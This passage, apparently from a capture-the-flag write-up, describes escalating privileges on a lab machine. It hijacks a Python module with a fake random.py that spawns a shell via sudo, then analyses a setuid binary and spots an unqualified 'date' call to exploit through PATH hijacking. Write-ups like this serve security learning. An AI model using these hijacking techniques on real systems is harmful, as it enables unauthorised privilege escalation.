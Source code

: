 
### Python Module Hijacking --> Horizontal PrivEsc
Basically, a fake module can be made, which when imported, will execute the malicious code rather than the module code intended. The python file, "walrus_and_the_carpenter.py" imports the random module, so in order to perform a module hijacking attack, I created a fake random.py file and added simple code.
```
touch random.py
nano random.py
```
random.py:
```python
import os
os.system('/bin/bash')
```

After running the python script:

```bash
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

```
 
 I now was user rabbit. My first move was to change directories to rabbits home, and found an ELF file owned by root. 
 Running file to analyse the binary showed that it is a setuid / setgid ELF executable.
 
Running the script outputs:
```
Welcome to the tea party!
The Mad Hatter will be here soon.
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped) --> seems to be written into the file and not an actual error?
```

I ran a local python server to download and further analyze the file on my machine:

```
...
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
;*3$"
GCC: (Debian 8.3.0-6) 8.3.0
...
```

I knew that this would be the key to escalating, but wasn't sure exactly how, so I decided to look into ways this could be done, and settled on the following method.
While the path is provided for /bin/echo, it is not provided for date --> possibly another hijacking / imitation attack or path attack.

---

### Path Exploitation --> Horizontal PrivEsc
